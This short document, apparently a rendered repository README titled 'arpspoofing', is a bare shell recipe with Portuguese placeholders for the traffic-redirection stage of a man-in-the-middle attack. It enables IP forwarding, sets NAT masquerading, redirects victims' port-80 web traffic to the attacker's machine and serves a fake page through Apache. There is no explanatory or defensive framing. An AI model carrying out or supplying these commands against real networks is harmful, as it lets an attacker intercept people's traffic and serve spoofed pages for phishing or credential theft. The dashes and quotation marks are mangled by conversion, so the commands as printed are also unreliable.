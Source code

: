 # arpspoofing

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat —flush

iptables —zero

iptables -A FORWARD —in-interface ‘nome_interface’ -j ACCEPT

iptables -t nat —append POSTROUTING —out-interface ‘nome_interface’ -j MASQUERADE

iptables -t nat -A PREROUTING -p tcp —dport 80 —jump DNAT —to-destination ‘meuip’

apt-get install apache2

echo “esse site eh falso!!” > /var/www/html/index.html
